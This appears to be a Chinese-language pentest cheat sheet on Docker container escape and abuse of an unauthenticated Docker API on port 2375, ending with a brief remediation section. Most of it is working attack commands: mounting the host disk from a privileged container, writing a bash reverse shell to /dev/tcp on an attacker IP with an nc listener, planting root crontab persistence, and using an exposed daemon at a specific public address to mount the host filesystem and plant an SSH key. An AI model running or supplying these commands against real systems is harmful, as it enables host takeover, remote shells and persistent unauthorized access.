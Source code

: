 
# docker 逃逸
```shell
# 查看是否在 docker中
ls -alh /.dockerenv

$ fdisk -l
# * Linux 表示是宿主机
## 如果通过特权模式启动容器，docker run --privileged时，Docker容器将被允许访问主机上的所有设备，并可以执行mount命令进行挂载。
/dev/sda1  *        2048 16779263 16777216   8G 83 Linux


mkdir /test
mount /dev/sda1 /test

vi /test/tmp/test.sh
/bin/bash -i >& /dev/tcp/192.168.50.161/7777 0>&1 
#:wq 保存

# 攻击机
nc -lvp 7777

# 写入 crontab
sed -i '$a*/2 *    * * *    root  bash /tmp/test.sh ' /test/etc/crontab

# 或者写入authorized_keys 然后ssh
```

## docker 未授权

访问 http://your-ip:2375/version
```sh
docker -H tcp://47.92.7.138:2375 images
docker -H tcp://47.92.7.138:2375 ps -a
# 启动容器并将宿主机磁盘挂载到/mnt
docker -H tcp://47.92.7.138:2375 run -it -v /:/mnt --entrypoint /bin/bash ubuntu:18.04
cd /mnt/root/.ssh/
echo "ssh-rsa AAAAB3NzaC1yc2......." > authorized_keys

# 反弹shell -- 可通过 crontab -e 写入定时任务
* * * * * /bin/sh -i >& /dev/tcp/xxx.xxx.xxx.xxx./1111 0>&1
```


# 0x04 修复建议

1、对 2375 端口做网络访问控制，如 ACL 控制，或者访问规则；

2、修改 docker swarm 的认证方式，使用 TLS 认证：Overview Swarm with TLS 和 Configure Docker Swarm for TLS 这两篇文档，说的是配置好 TLS 后，Docker CLI 在发送命令到 docker daemon 之前，会首先发送它的证书，如果证书是由 daemon 信任的 CA 所签名的，才可以继续执行。